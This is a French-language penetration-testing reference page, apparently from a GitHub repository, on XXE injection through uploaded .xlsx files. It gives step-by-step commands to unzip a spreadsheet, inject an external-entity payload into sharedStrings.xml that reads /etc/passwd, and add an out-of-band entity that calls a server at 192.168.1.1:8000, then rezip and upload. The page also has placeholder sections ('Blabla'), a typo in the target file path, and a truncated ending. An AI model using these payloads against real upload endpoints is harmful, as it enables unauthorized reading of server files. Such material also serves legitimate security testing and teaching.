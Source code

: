 # Office Open XML Spreadsheet

<img src="logo.png" title="" alt="" height="150">

**Facteur de risque** : Information Disclosure, LFI, XXE, XSS...

**Extension** : `.xlsx`, `xlsm`

**Type MIME** : `application/vnd.openxmlformats-officedocument.spreadsheetml.sheet`

**Description** : 

**Office Open XML** (OOXML) est un format de fichier **zippé** et basé sur le **XML**, pour représenter des feuilles de calcul, des graphiques, des présentations et des documents de traitement de texte. 

`.xlsx` est une extension de nom de fichier pour tableur au format Office Open XML. `.xlsm` permet en plus l'utilisation des **macros**.

Un fichier `.xlsx` peut être désarchiver comme un fichier `.zip`. Il contient notamment plusieurs fichiers `.xml`, dont :

- le fichier `xl/workbook.xml`, qui donne une vue d'ensemble du contenu du classeur (nom des feuilles, etc.). La plupart du temps, les applications web analysent ce fichier en premier,

- les fichiers `xl/worksheets/sheet1.xml`, `xl/worksheets/sheet2.xml`... correspondent aux feuilles, avec les données numériques notamment,

- et le fichier `xl/sharedStrings.xml` contient les chaînes de caractères des différentes feuilles.

Un fichier Excel ou un fichier Google Sheets en `.xlsx` correspond donc en réalité à un fichier archive `.zip` contenant plusieurs fichiers `.xml`. Des payloads pour XXE peuvent être donc injectés dans les fichiers.

## Sommaire

- XML External Entity (XML)

## XML External Entity (XML)

### Pré-requis

- Le fichier doit être accessible après avoir été uploadé
- Le serveur web doit analyser et traiter les données du fichier.

### Exploitation

Créez un nouveau fichier Excel ou Google Sheets vide, puis enregistrez le fichier au format `.xlsx` (**xxe.xlsx**)

1. Déarchivez le fichier `.xlsx` dans un répertoire (**FichierMalveillant**) :
   
   ```shell
   unzip xxe.xlsx -d FichierMalveillant
   ```

2. Le payload XXE doit être ajouté dans le fichier `.xml` que l'application traitera (dans les fichiers `xl/workbook.xml`, `xl/worksheets/sheet1.xml`, `xl/sharedStrings.xml` notamment) :
   
   ```xml
   <?xml version="1.0" encoding="UTF-8" standalone="yes"?>
   <!DOCTYPE foo [ <!ELEMENT t ANY > <!ENTITY xxe SYSTEM "file:///etc/passwd" >]>
   <sst xmlns="http://schemas.openxmlformats.org/spreadsheetml/2006/main" count="4" uniqueCount="4">
   <si><t>ABCD</t></si>
   <si><t>&xxe;</t></si>
   <si><t>FGHI</t></si>
   <si><t>IJKL</t></si>
   </sst>
   ```
   
   Ici, le payload a été placé dans le fichier `xl/sharedStrings.xml`, pour récupérer le contenu de `/etc/password`.
   
   ```xml
   <!DOCTYPE go [
   <!ENTITY % go2 SYSTEM "http://192.168.1.1:8000/XXE">
   %go2;
   ```
   
   Ici, si le parser de l'application est vulnérable au XXE, il va se connecter via HTTP au serveur web 192.168.1.1 sur le port 8000, en demandant le fichier `XXE`.

3. Archivez à nouveau le fichier `.xlsv`, puis téléversez-le. Office n'ouvrit pas ces fichiers. Mais les fichiers sont correctes et restent valident.
   
   ```shell
   zip -r xxe.xlsx FichierMalveillant/*
   ```
   
   ou
   
   ```shell
   zip -u xxe.xlsx xl/sharedStrings.xml
   ```

## Payload 3

### Pré-requis

- Pré-requis 1

- Pré-requis 2

### Attaque

Blabla

Bla

## References

- Exploiting XXE Vulnerabilities In File Parsing Functionality - YouTube : https://www.youtube.com/watch?v=LZUlw8hHp44
- Black Hat | WebCast: Exploiting XML Entity Vulnerabilities in File Parsing Functionality : https://www.blackhat.com/html/webcast/11192015-exploiting-xml-entity-vulnerabilities-in-file-parsing-functionality.html
- GitHub - BuffaloWill/oxml_xxe: A tool for embedding XXE/XML exploits into different filetypes : https://github.com/BuffaloWill/oxml_xxe
- Exploiting XXE with Excel : https://www.4armed.com/blog/exploiting-xxe-with-excel/
- XXE injection is possible via specially crafted excel file : https://github.com/jmcnamara/excel-reader-xlsx/issues/10
- XXE at Bol.com : https://medium.com/@jonathanbouman/xxe-at-bol-com-7d331186de54]
- XXE ALL THE THINGS!!! (including Apple iOS's Office Viewer) | INTEGRITY Labs : https://labs.integrity.pt/articles/xxe-all-the-things-including-apple-ioss-office-viewer/index.html

## Todo

- AJouter un payload dans `xl/workbook.xml` et `xl/worksheets/sheet1.xml` (voir XXE at Bol.com)

- Ajouter un payload dans le fichier `[Content_Types].xml`

- an Excel file with a dangerous formula

## XXE inside DOCX file

Format of an Open XML file (inject the payload in any .xml file):

```
/_rels/.rels
[Content_Types].xml
Default Main Document Part
    /word/document.xml
    /ppt/presentation.xml
    /xl/workbook.xml
```

Then update the file zip -u xxe.docx [Content_Types].xml

Tool : [GitHub - BuffaloWill/oxml_xxe: A tool for embedding XXE/XML exploits into different filetypes](https://github.com/BuffaloWill/oxml_x
